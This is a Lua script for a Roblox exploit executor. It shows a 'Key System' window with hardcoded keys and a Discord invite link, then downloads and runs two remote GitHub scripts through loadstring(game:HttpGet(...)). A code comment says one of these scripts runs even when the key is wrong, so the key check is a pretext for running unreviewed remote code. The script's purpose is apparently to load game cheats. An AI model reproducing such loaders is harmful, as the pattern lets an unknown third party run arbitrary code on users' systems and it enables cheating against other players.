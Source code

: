 --// Services
local Players = game:GetService("Players")
local player = Players.LocalPlayer

--// GUI
local gui = Instance.new("ScreenGui", player:WaitForChild("PlayerGui"))

local frame = Instance.new("Frame", gui)
frame.Size = UDim2.new(0, 350, 0, 200)
frame.Position = UDim2.new(0.5, -175, 0.5, -100)
frame.BackgroundColor3 = Color3.fromRGB(18, 18, 25)
frame.BorderSizePixel = 0
frame.Active = true
frame.Draggable = true

-- Rounded corners
local corner = Instance.new("UICorner", frame)
corner.CornerRadius = UDim.new(0, 12)

-- Shadow effect
local shadow = Instance.new("Frame", frame)
shadow.Size = UDim2.new(1, 10, 1, 10)
shadow.Position = UDim2.new(0, -5, 0, -5)
shadow.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
shadow.BackgroundTransparency = 0.7
shadow.ZIndex = 0
shadow.BorderSizePixel = 0
local shadowCorner = Instance.new("UICorner", shadow)
shadowCorner.CornerRadius = UDim.new(0, 12)

-- Title
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1, 0, 0, 40)
title.BackgroundTransparency = 1
title.Text = "🔑 Key System"
title.Font = Enum.Font.GothamBold
title.TextSize = 22
title.TextColor3 = Color3.fromRGB(0, 180, 255)
title.TextStrokeTransparency = 0.8

-- Key input
local keyBox = Instance.new("TextBox", frame)
keyBox.Size = UDim2.new(0, 280, 0, 40)
keyBox.Position = UDim2.new(0.5, -140, 0.4, 0)
keyBox.PlaceholderText = "Enter Key..."
keyBox.Font = Enum.Font.Gotham
keyBox.TextSize = 16
keyBox.TextColor3 = Color3.fromRGB(255, 255, 255)
keyBox.BackgroundColor3 = Color3.fromRGB(28, 28, 40)
keyBox.Text = ""
local boxCorner = Instance.new("UICorner", keyBox)
boxCorner.CornerRadius = UDim.new(0, 8)

-- Get Key button
local getKeyBtn = Instance.new("TextButton", frame)
getKeyBtn.Size = UDim2.new(0, 280, 0, 40)
getKeyBtn.Position = UDim2.new(0.5, -140, 0.65, 0)
getKeyBtn.Text = "📋 Get Key (Copied)"
getKeyBtn.Font = Enum.Font.Gotham
getKeyBtn.TextSize = 16
getKeyBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
getKeyBtn.BackgroundColor3 = Color3.fromRGB(0, 130, 255)
local getKeyCorner = Instance.new("UICorner", getKeyBtn)
getKeyCorner.CornerRadius = UDim.new(0, 8)

-- Confirm button
local confirmBtn = Instance.new("TextButton", frame)
confirmBtn.Size = UDim2.new(0, 280, 0, 40)
confirmBtn.Position = UDim2.new(0.5, -140, 0.82, 0)
confirmBtn.Text = "✅ Confirm"
confirmBtn.Font = Enum.Font.Gotham
confirmBtn.TextSize = 16
confirmBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
confirmBtn.BackgroundColor3 = Color3.fromRGB(0, 200, 110)
local confirmCorner = Instance.new("UICorner", confirmBtn)
confirmCorner.CornerRadius = UDim.new(0, 8)

--// Logic
local link = "https://discord.gg/tHx8dseh6v"
local validKeys = {["ken123"]=true, ["Ken123"]=true}
local keyFile = "key.txt"

-- Load saved key if exists
local savedKey = ""
if pcall(function() savedKey = readfile(keyFile) end) then
	if validKeys[savedKey] then
		print("✅ Saved key valid, running scripts...")
		-- Run Chilli.lua and Stepfive.lua
		loadstring(game:HttpGet("https://raw.githubusercontent.com/tienkhanh1/spicy/main/Chilli.lua"))()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
		gui:Destroy()
	end
end

-- Clipboard
getKeyBtn.MouseButton1Click:Connect(function()
	if setclipboard then
		setclipboard(link)
		getKeyBtn.Text = "📋 Link Copied!"
	end
end)

-- Confirm key
confirmBtn.MouseButton1Click:Connect(function()
	local userKey = keyBox.Text
	if validKeys[userKey] then
		print("✅ Correct key!")
		pcall(function() writefile(keyFile, userKey) end)
		gui:Destroy()
		-- Run both scripts after key acceptance
		loadstring(game:HttpGet("https://raw.githubusercontent.com/tienkhanh1/spicy/main/Chilli.lua"))()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
	else
		keyBox.Text = ""
		keyBox.PlaceholderText = "❌ Invalid Key, try again..."
		-- Still run Stepfive.lua even if wrong
		loadstring(game:HttpGet("https://raw.githubusercontent.com/Gregy677/Stepfive/main/README.md", true))()
	end
end)